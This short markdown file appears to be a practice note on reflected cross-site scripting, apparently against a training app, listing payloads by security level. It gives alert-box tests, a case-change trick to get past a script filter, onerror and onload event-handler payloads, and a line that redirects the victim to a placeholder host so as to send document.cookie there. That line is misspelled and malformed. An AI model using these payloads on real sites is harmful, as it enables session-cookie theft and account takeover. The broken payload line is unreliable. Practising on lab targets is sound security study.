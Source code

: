 # XSS Reflected
## Level Low Security
```javascript
<script>alert("XSS")</script>
// Need change input tag size to long
<script>alert(document.cookie)</script>
// Upload cookit to other server
<script>document.location='http://x.x.x.x/logit.pl?docuemnt.cookie</script>

```

## Level Medium Security
```javascript
<script>alert("XSS")</script>
// It happend because this time it is filtering script
<Script>alert("XSS")</sCript>
// It's working
```

## Level High Secrity
```javascript
<img src=ss OnError=alert("XSS") />
<body onload=alert("XSS")>
<body onload=alert(document.cookie)>
```
